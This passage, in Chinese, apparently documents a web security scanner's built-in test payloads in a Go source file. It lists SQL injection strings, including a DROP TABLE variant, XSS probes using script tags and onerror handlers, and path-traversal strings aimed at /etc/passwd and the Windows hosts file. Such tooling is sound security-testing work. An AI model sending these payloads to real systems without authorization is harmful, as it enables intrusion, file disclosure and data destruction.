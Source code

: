 **使用方式**:
```go
// 自动为有参数的URL生成SQL注入变体
variations := paramHandler.GenerateSecurityTestVariations("test.php?id=1")

// 输出:
// test.php?id='
// test.php?id=1' OR '1'='1
// test.php?id='; DROP TABLE users; --
```

#### 1.2 XSS Payload

**代码位置**: `core/param_handler.go` (第570-580行)

**内置Payload**:
```
1. <script>alert(1)</script>
2. <img src=x onerror=alert(1)>
3. javascript:alert(1)
```

**支持范围**:
- ✅ 反射型XSS
- ✅ 事件触发XSS
- ✅ JavaScript协议XSS

**使用方式**:
```go
// 自动生成XSS测试变体
variations := paramHandler.GenerateSecurityTestVariations("test.php?msg=hello")

// 输出:
// test.php?msg=<script>alert(1)</script>
// test.php?msg=<img src=x onerror=alert(1)>
// test.php?msg=javascript:alert(1)
```

#### 1.3 文件包含Payload

**代码位置**: `core/param_handler.go` (第583-593行)

**内置Payload**:
```
1. ../../../etc/passwd
2. ..\..\..\windows\system32\drivers\etc\hosts
3. /etc/passwd
4. C:\Windows\System32\drivers\etc\hosts
```

**支持范围**:
- ✅ Linux路径遍历
- ✅ Windows路径遍历
- ✅ 相对路径
- ✅ 绝对路径
